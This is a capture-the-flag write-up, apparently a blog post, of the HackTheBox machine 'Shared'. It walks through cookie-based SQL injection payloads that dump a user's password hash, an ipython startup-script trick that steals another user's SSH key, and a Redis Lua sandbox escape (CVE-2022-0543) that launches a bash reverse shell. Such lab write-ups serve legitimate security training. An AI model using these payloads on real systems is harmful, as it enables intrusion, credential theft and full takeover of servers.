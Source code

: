 ```yaml
---
layout: post
title: "HTB: Shared"
author: Andrew Cherney
date: 2023-04-26 19:52:08
tags: htb medium-box
icon: "assets/icons/shared.png"
post_description: "SQLi, ipython, and Redis (oh my). This box starts off with fuzzing a store page to find an SQLi where you get the password for a user. Next that user has access to a script testing/reviewing directory which could be exploited to run commands at another user. The cherry on top is the redis sandbox escape after finding a binary which leaked the redis password."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nmap -Pn 10.10.11.172
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-26 19:59 CDT
Nmap scan report for shared.htb (10.10.11.172)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/shared/front_page" alt="front_page" ext="png" trunc=600 %}

Seems this is some basic shop with essential functionality. I toss a couple items in my cart minding the url and parameters being passed. I see that on items there is a product id, a product attribute id, the item's name passed through a rewrite parameter, and a controller parameter which denotes product or cart.

![cart page](/img/shared/cart.png)

I head over to checkout and see that the checkout button goes to **checkout.shared.htb**. Quickly add that to my etc hosts file and try to checkout. 

![checkout page](/img/shared/checkout.png)

Before I begin fuzzing this page I make note that there are two cookies for the site. The first is a custom_cart cookie which holds JSON of the items I have and their quantity. The second seems to be encrypted, and although I found [this post about encryption vulnerabilities in PrestaShop](https://www.ambionics.io/blog/prestashop-privilege-escalation) I would rather save that for a last resort. 

<h1>User as james_mason</h1>

<h2>SQLi</h2>

Now onto burp suite and this credit card input. This payment portal isn't sending information and only returns a popup when clicking pay. But the product ID and quantity of items are controlled by a cookie here, meaning in theory I can inject some code into whatever handles the cookie information. 

I make a test cookie of %7B%22test%22%3A%221111%22%7D, which is **{"test":"1111"}** in json format. The response is Not Found from the product ID. I then try the payload **{"53GG2EF8' and '1'='1":"1111"}**, which to my surprise spits out the correct information. I mess around with some syntax and stumble across <code>{"53GG2EF8' and 1=1 union select null,null,null-- -":"1111"}</code> yielding a positive result. 

I refine my payload into the following <code>{"' and 1=1 union select null,version(),null-- -":"1111"}</code> where if I change where version() is I can inject my own queries. Now I can search for tables, read those tables, and hopefully find some credentials. 

```json
{"' and 1=1 union select null,database(),null-- -":"1111"}
Result: checkout

{"' and 1=1 union select null,table_name,table_schema from information_schema.tables where table_schema='checkout'-- -":"1"} 
Result: user

{"' and 1=1 union select null,username,null from checkout.user-- -":"1111"}
Result: james_mason

{"' and 1=1 union select null,password,null from checkout.user where username = 'james_mason'-- -":"1111"}
Result: fc895d4eddc2fc12f995e18c865cf273
```

I toss that password into crackstation and got out **Soleil101**. Here's to praying ssh works. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $ssh james_mason@shared.htb
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
james_mason@shared:~$ cat user.txt
cat: user.txt: No such file or directory
```

<h1>User as dan_smith</h1>

<h2>ipython</h2>

First thing I notice is the developer group.

```bash
james_mason@shared:/home$ find / -group developer 2>/dev/null
/opt/scripts_review
james_mason@shared:/opt$ ls -al
total 12
drwxr-xr-x  3 root root      4096 Jul 14  2022 .
drwxr-xr-x 18 root root      4096 Jul 14  2022 ..
drwxrwx---  2 root developer 4096 Jul 14  2022 scripts_review
```

Seems I can edit files in this opt directory named scripts_review. I'll keep digging till I find why this directory exists. The tldr is that ipython probably uses it, ipython is run by either dan_smith or root (probably dan as ipython is in his home directory), and I found [this advisory about running code as another user](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x). If I create two directories named profile_default/startup then I can place scripts inside of the startup directory for them to run as dan_smith. 

```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default;mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo 'import os; os.system("cat ~/.ssh/id_rsa > /tmp/raccoon")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared:/opt/scripts_review$ cat /tmp/raccoon 
-----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $chmod 400 shared.key 
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $ssh dan_smith@shared.htb -i shared.key 
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
dan_smith@shared:~$ cat user.txt
0f2a5ed8548---------------------
```

<h1>Root</h1>

<h2>Redis</h2>

In the id command we see I am a part of the sysadmin group, so round 2 for looking for files owned by a group. 

```bash
dan_smith@shared:/usr/local/bin$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
dan_smith@shared:/usr/local/bin$ redis_connector_dev 
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:4403
run_id:edb16a569462be765c207c082c946cc7d62d2f41
tcp_port:6379
uptime_in_seconds:13
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:4843839
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```

That file is a binary and I fear I need to sift through it with ghidra to determine what it does and how to exploit it. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $scp -i shared.key dan_smith@shared.htb:/usr/local/bin/redis_connector_dev .
```

Before I begin to dig through this I did decide try and run this on my local machine to see what information it sends out.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nc -nvlp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60178
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

That looks suspiciously like a password at the bottom line. I'll try to login with this for the redis-cli.

```bash
dan_smith@shared:/usr/local/bin$ redis-cli -a F2WHqJUz2WEz=Gqq
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> 
```

With an authenticated terminal in theory if this were vulnerable I could abuse it. I tossed a secret sequence of words to find a CVE: "redis rce poc github" and found [CVE-2022-0543 which is a Lua sandbox escape RCE](https://github.com/JacobEbben/CVE-2022-0543). I'll use a reverse shell to get root out of this rce.

```bash
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -c \'bash -i >& /dev/tcp/10.10.14.5/7777 0>&1\'", "r"); local res = f:read("*a"); f:close(); return res' 0
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.172] 59620
bash: cannot set terminal process group (5550): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis# id
id
uid=0(root) gid=0(root) groups=0(root)
root@shared:/var/lib/redis# cat /root/root.txt
cat /root/root.txt
256c100c5-----------------------
```

